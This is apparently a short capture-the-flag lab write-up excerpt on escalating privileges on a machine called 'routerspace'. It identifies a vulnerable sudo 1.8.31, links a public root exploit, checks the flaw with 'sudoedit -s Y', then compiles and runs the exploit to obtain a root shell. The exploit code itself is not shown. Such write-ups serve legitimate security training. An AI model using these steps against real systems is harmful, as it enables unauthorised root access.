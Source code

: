 ```
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                                                                                                                                                                  
Sudo version 1.8.31 
```
https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit


```
paul@routerspace:~$ sudoedit -s Y
[sudo] password for paul:
```

# Privesc
```
paul@routerspace:~$ vim shellcode.c
paul@routerspace:~$ vim exploit.c
paul@routerspace:~$ vim Makefile
paul@routerspace:~$ make
mkdir libnss_x
cc -O3 -shared -nostdlib -o libnss_x/x.so.2 shellcode.c
cc -O3 -o exploit exploit.c
paul@routerspace:~$ ls
exploit  exploit.c  libnss_x  linpeas.sh  Makefile  shellcode.c  snap  user.txt
paul@routerspace:~$ ./exploit 
# ls
Makefile  exploit  exploit.c  libnss_x  linpeas.sh  shellcode.c  snap  user.txt
# whoami
root
# cd /root
# ls
root.txt
```
